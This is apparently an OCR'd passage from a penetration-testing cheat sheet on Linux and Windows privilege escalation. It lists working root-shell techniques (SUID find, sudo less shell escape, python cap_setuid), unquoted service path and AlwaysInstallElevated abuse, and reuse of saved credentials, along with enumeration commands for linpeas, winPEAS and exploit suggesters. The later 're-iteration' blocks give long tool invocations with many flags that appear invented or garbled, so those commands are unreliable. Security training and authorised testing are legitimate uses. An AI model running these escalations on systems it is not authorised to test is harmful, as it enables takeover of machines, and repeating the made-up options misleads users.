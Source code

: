 ### 6.1 Privilege Escalation
#### 6.1.1 Linux Privilege Escalation
    :- Find SUID binaries:    find / -perm -u=s -type f 2>/dev/null

    :- Check GTFOBins for exploitation (Assume 'find' binary has SUID)    
    https://gtfobins.github.io/gtfobins/find/
    
    :- Exploit SUID find for root shell
    find . -exec /bin/sh -p \; -quit

    :- Check sudo permissions:    sudo -l

    :- Exploit sudo permission (Assume user can run 'less' as root)    
    https://gtfobins.github.io/gtfobins/less/
    sudo less /etc/profile

    :- Execute shell via less '!' command
    
    :- (Inside less, type !/bin/sh)
    
    :- Check Cron Jobs:    
    ls -la /etc/cron*
    
    cat /etc/crontab

    :- Check Capabilities:    
    getcap -r / 2>/dev/null

    :- Exploit capabilities (Assume /usr/bin/python has cap_setuid+ep)    
    https://gtfobins.github.io/gtfobins/python/
    
    :- Use python capability to get root shell
    /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")' 

    ::- Linux PrivEsc Check Scripts (Re-iteration with common flags)    
    :- Run all checks (noisy)
    linpeas.sh -a
    
    :- Linux Smart Enumeration, level 0 (quick overview)
    lse.sh -i -l 0
    ----
    linpeas.sh
    linpeas.sh -a -t -s -p -c -S -r -e -P -C
    linux-exploit-suggester.sh -k 5.4.0-26-generic
    pspy64
    pspy64 -p -i -U -C -f
    SUID3NUM -q -p -s -g
    ------
    linpeas.sh -a -t -s -p -c -S -r -e -P -C -l -u -n -i -d /tmp -w /tmp/writable
    linux-exploit-suggester.sh -k $(uname -r) -l
    searchsploit Linux kernel $(uname -r)
    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null
    find / -writable -type d 2>/dev/null
    find / -user $(whoami) -perm -0400 -type f 2>/dev/null
    pspy64 -p -i -U -C "/bin/bash" -f "root"
    SUID3NUM -q -p -s -g -w
    ------
    linpeas.sh -a -t -s -p -c -S -r -e -P -C -l -u -n -i -d /tmp -w /tmp/writable -b -o /tmp/linpeas_full.txt
    linux-exploit-suggester.sh -k $(uname -r) -l -c
    searchsploit Linux kernel $(uname -r) local privesc
    find / -perm -o=w -type f 2>/dev/null
    find / -nouser -o -nogroup -type f 2>/dev/null
    find / -name "*.so" -perm -u=s -type f 2>/dev/null
    pspy64 -p -i -U -C "/usr/bin/sudo" -f "$(whoami)"
    SUID3NUM -q -p -s -g -w -v

#### 6.1.2 Windows Privilege Escalation
    :- Find interesting files/permissions:
    
    :- Check permissions for Authenticated Users
    accesschk.exe -wsu "Authenticated Users" c:\*.* /accepteula
    
    :- Check ACLs for a file
    icacls C:\path\to\file

    :- Check AlwaysInstallElevated registry keys:    
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    (If both are 1, can create MSI for SYSTEM privileges)

    :- Check Unquoted Service Paths:    
    wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

    :- Exploit Unquoted Service Path (Assume service path is C:\Program Files\Some Dir\service.exe)    
    (Place malicious service.exe at C:\Program.exe or C:\Program Files\Some.exe)

    :- Check for stored credentials:    
    cmdkey /list
    
    :- Example leveraging saved creds
    runas /savecred /user:administrator cmd.exe

    ::- Windows PrivEsc Check Tools (Re-iteration)    
    :- WinPEAS faster checks, cmd output
    winPEASany.exe quiet cmd fast
    
    :- PowerSploit's PowerUp module
    PowerUp.ps1 (Import-Module .\PowerUp.ps1; Invoke-AllChecks)
    ---
    winpeas.exe
    winpeas.exe all quiet csv outputfile=winpeas.csv
    windows-exploit-suggester.py --database 2021-04-15-mssb.xls --ostext 'Windows 10'
    Watson.exe --search all --output results.txt
    ------
    winpeas.exe all quiet csv outputfile=winpeas_full.csv -nobanner
    windows-exploit-suggester.py --database 2023-01-01-mssb.xls --ostext 'Windows Server 2019' --arch 64
    Watson.exe --search all --output results_full.txt --modules kernel32.dll,advapi32.dll
    accesschk.exe -quvwc users c:\
    accesschk.exe -quvwc "Authenticated Users" "HKLM\SYSTEM\CurrentControlSet\Services"
    Get-Process -Id 1 | Get-ObjectSecurity | Format-List -Property *
    Get-Service | Where-Object {$_.StartMode -eq "Auto" -and $_.StartName -ne "NT AUTHORITY\SYSTEM"}
    ------
    winpeas.exe all quiet csv outputfile=winpeas_very_full.csv -nobanner -detailed
    windows-exploit-suggester.py --database 2024-01-01-mssb.xls --ostext 'Windows Server 2022' --arch 64 --cve CVE-2020-*
    Watson.exe --search all --output results_extensive.txt --modules *.dll
    accesschk.exe -quvwc everyone c:\windows
    accesschk.exe -quvwce "NT AUTHORITY\SYSTEM" * /accepteula
    Get-WmiObject -Class Win32_Service | Where-Object {$_.StartMode -eq "Auto" -and $_.StartName -like "*LocalSystem*"} | Format-Table Name, StartName, PathName
    Get-ScheduledTask | Where-Object {$_.settings.runlevel -eq "HighestAvailable"} | Format-Table TaskName, Author